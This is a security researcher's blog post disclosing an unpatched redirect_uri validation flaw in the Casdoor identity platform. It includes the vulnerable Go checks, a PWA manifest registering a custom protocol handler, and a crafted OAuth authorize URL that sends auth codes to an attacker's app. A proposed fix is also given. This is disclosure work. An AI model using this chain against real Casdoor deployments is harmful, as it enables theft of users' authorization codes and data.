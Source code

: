 +++
title = 'Why Protocol Matters: Evil PWA Attack on Casdoor'
date = 2025-02-05T00:00:00+03:00
draft = false
+++

> The article is informative and intended for security specialists conducting testing within the scope of a contract. The author is not responsible for any damage caused by the application of the provided information. The distribution of malicious programs, disruption of system operation, and violation of the confidentiality of correspondence are pursued by law.

# Introduction
In this article, I would like to discuss a vulnerability I discovered in [Casdoor](https://github.com/casdoor/casdoor), starting with a brief overview:

> Casdoor - An open-source UI-first Identity and Access Management (IAM) / Single-Sign-On (SSO) platform with a web UI supporting OAuth 2.0, OIDC, SAML, CAS, LDAP, SCIM, WebAuthn, TOTP, MFA, Face ID, RADIUS, Google Workspace, Active Directory, and Kerberos.

# Vulnerability
I want to first explain how the vulnerability was found, as it is quite amusing. At the end of that year, a number of vulnerabilities were discovered in Casdoor by specialists from the GitHub Security Lab - you can read about it [here](https://securitylab.github.com/advisories/GHSL-2024-035_GHSL-2024-036_casdoor/). One of the vulnerabilities was found in the following lines:
```go
	if strings.HasPrefix(origin, "http://localhost") || strings.HasPrefix(origin, "https://localhost") || strings.HasPrefix(origin, "http://127.0.0.1") || strings.HasPrefix(origin, "http://casdoor-app") || strings.Contains(origin, ".chromiumapp.org") {
		setCorsHeaders(ctx, origin)
		return
	}
```
As you can see, it could be easily exploited using URLs like `https://localhost.slonser.info`.

 I became curious about how this was fixed, as well as how the `redirect_uri` validation function works. I came across the following function:
```go
func IsValidOrigin(origin string) (bool, error) {
	urlObj, err := url.Parse(origin)
	if err != nil {
		return false, err
	}
	if urlObj == nil {
		return false, nil
	}

	originHostOnly := ""
	if urlObj.Host != "" {
		originHostOnly = fmt.Sprintf("%s://%s", urlObj.Scheme, urlObj.Hostname())
	}

	res := originHostOnly == "http://localhost" || originHostOnly == "https://localhost" || originHostOnly == "http://127.0.0.1" || originHostOnly == "http://casdoor-authenticator" || strings.HasSuffix(originHostOnly, ".chromiumapp.org")
	return res, nil
}
```
As you can see:
Interesting points:
1. `IsValidOrigin` is called before checking the allowList for `redirect_uri`, meaning that bypassing it could allow the theft of the user's auth code.
2. Now it is indeed impossible to use exploits from the previous version, as the check is performed using `==`.
3. At the end, `strings.Contains(origin, ".chromiumapp.org")` was changed to `strings.HasSuffix(originHostOnly, ".chromiumapp.org")`.

And therein lies the problem: `strings.HasSuffix` checks the ending, which does not allow us to use arbitrary origins. However, we can insert a URL with an arbitrary protocol:
```
anyprotocol://slonser.chromiumapp.org
```

# Known Exploitation Methods
A well-known exploitation method is using custom schemes on mobile devices. More details on how to register them on [Android](https://developer.android.com/training/app-links/deep-linking) and on [iOS](https://evanconnelly.github.io/post/ios-oauth/). The basic idea is that we can trick the user into installing a malicious application and redirecting them to a URL like:
```
myapp://slonser.chromiumapp.org
```
But I didn't like this idea for several reasons:
1. This attack is not universal.
2. It is quite difficult to trick the user into installing a malicious application, as it needs to be uploaded to the Play Store, go through moderation, etc.
3. I want to be able to attack users on desktop.

# Evil PWA Attack
However, I quickly came up with a more universal attack vector using [PWA](https://web.dev/explore/progressive-web-apps). PWAs do not require native installation on the device and also work on desktop. Most importantly, PWAs also support [protocol handlers](https://developer.chrome.com/docs/web-platform/best-practices/url-protocol-handler):
```json
    "protocol_handlers": [
        {
            "protocol": "web+slonser",
            "url": "/call?q=%s"
        },
    ]
```
By inserting such a protocol in `protocol_handlers`, when opening a URL like `web+slonser://slonser.chromiumapp.org`, it will open `https://pwahost/call?q=web+slonser://slonser.chromiumapp.org`.

Thus, to exploit this, you need to upload a `manifest.json` like this:
```
{
    "short_name": "Slonser",
    "name": "Slonser Long",
    "description": "description",
    "icons": [
      {
        "src": "/images.png",
        "sizes": "225x225",
        "type": "image/png"
      }
    ],
    "screenshots": [
  {
    "src": "slon400.jpg",
    "sizes": "400x400",
    "type": "image/jpg",
    "form_factor": "wide",
    "label": "Wonder Widgets"
  },
  {
    "src": "slon400.jpg",
    "sizes": "400x400",
    "type": "image/jpg",
    "label": "Wonder Widgets"
  }
],
    "start_url": "/",
    "display": "standalone",
    "theme_color": "#000000",
    "background_color": "#ffffff",
    "protocol_handlers": [
        {
            "protocol": "web+slonser",
            "url": "/zzz?q=%s"
        }
    ]
}
```
After that, you need to:
1. Direct the user to a site that includes `<link rel="manifest" href="manifest.json" />`
   ![](./1.jpg)
2. The user installs our PWA.
3. After that, you can open from your page:
   ```
   https://casdoor_instance/login/oauth/authorize?client_id=CLIENT_ID&response_type=code&redirect_uri=web%2bslonser%3A%2F%2Fz.chromiumapp.org&scope=read&state=state_data
   ```
4. After which the user will be successfully redirected to our site.
   ![](./2.png)

You can see the full implementation [here](https://pocs.neplox.security/casdoor-6fe54bcf-d62f-4688-8158-18465b3109f9/).

# Summary
This attack will work on both Android and Windows/MacOS/Linux, effectively allowing the theft of user data.

The vulnerability has not been fixed; I tried to contact the Casdoor team via email, but was ignored. As you can see, this is a systematic problem, as both the GitHub security team and many other security researchers have been ignored.

I decided to make a [public](https://github.com/casdoor/casdoor/pull/3554) pull request with a fix:
```go
(strings.HasSuffix(originHostOnly, ".chromiumapp.org") && strings.HasPrefix(originHostOnly, "https://"))
```
You can apply the patch yourself, and I also recommend abandoning this solution, as it seems that this project is completely indifferent to security.